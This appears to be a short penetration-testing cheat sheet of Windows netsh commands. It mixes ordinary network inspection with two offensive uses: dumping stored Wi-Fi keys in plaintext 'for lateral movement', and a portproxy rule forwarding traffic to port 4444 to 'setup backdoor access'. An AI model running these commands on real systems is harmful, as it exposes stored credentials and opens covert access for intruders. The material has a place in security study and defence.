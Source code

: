 Short for Network Shell, netsh is a command line tool used in Windows to view, configure, and troubleshoot network settings.

```shell
# Useful commands:

netsh interface ip show config # Like `ipconfig /all` or `ip a`

netsh wlan show profiles
netsh wlan show profile name="SSID" key=clear
# Extracts stored wifi profiles and plaintext keys, Good for lateral movement

netsh interface show interface # Show interfaces, identify VPNs, and other things.

netsh advfirewall firewall show rule name=all # List firewall rules, including those that may expose services or backdoors

netsh interface portproxy add v4tov4 listenport=80 listenaddress=127.0.0.1 connectport=4444 connectaddress=192.168.1.100
# setup backdoor access

```